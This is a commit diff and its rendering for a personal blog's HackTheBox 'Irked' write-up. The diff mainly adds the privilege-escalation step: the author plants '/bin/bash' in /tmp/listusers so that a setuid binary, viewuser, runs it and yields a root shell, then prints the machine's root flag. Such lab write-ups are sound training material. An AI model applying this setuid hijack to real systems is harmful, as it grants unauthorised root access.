

Before and after one commit to 1n4r1/1n4r1.github.io, a Jekyll site: the page built from _posts/2019-04-27-Hackthebox-Irked-Writeup.md, in a window 1280 px wide and 1400 px high, scrolled down 5033 px. Shown: the top 1389 px of the window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 6187 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
added 2019-04-27 irked-writeup

```diff
--- a/_posts/2019-04-20-Hackthebox-Irked-Writeup.md
+++ b/_posts/2019-04-27-Hackthebox-Irked-Writeup.md
@@ -4,7 +4,7 @@ title: Hackthebox Irked Writeup
 categories: HackTheBox
 ---
 
-<img src="/public/images/2019-04-20/irked_badge.png"><br>
+<img src="/public/images/2019-04-27/irked_badge.png"><br>
 ## Explanation
 <a href="https://www.hackthebox.eu">Hackthebox</a> is a website which has bunch of vulnerable machines in its own VPN.
 This is a write-up of machine "Irked" on that website.
@@ -134,7 +134,7 @@ UPupDOWNdownLRlrBAbaSSss
 {% endhighlight %}
 
 On the top page of port 80, we can find a image file "irked.jpg"
-![placeholder](https://inar1.github.io/public/images/2019-04-20/2019-04-14-18-42-16.png)
+![placeholder](https://inar1.github.io/public/images/2019-04-27/2019-04-14-18-42-16.png)
 
 We can use <a href=''>this website</a> to decode the data of irked.jpg.<br>
 The data achieved is "Kab6h+m+bbp2J:HG".<br>
@@ -198,8 +198,21 @@ djmardov pts/0        2019-04-14 11:05 (10.10.14.23)
 sh: 1: /tmp/listusers: not found
 {% endhighlight %}
 
-Sounds like we need an input for "viewuser".<br>
-Try to let this binary read "root.txt".
+Sounds like we need an input for "viewuser" and shell tries to execute it.<br>
+Then put a command to "/tmp/listusers". We can confirm it is executed.
 {% highlight shell %}
+djmardov@irked:~$ echo /bin/bash > /tmp/listusers
+djmardov@irked:~$ chmod 777 /tmp/listusers
+djmardov@irked:~$ /usr/bin/viewuser
+This application is being devleoped to set and test user permissions
+It is still being actively developed
+(unknown) :0           2019-04-23 17:05 (:0)
+djmardov pts/0        2019-04-27 15:35 (10.10.14.23)
+root@irked:~#
+{% endhighlight %}
 
+root.txt is in a directory "/root/".
+{% highlight shell %}
+root@irked:~# cat /root/root.txt
+8d8e9e8be64654b6dccc3bff4522daf3
 {% endhighlight %}
```
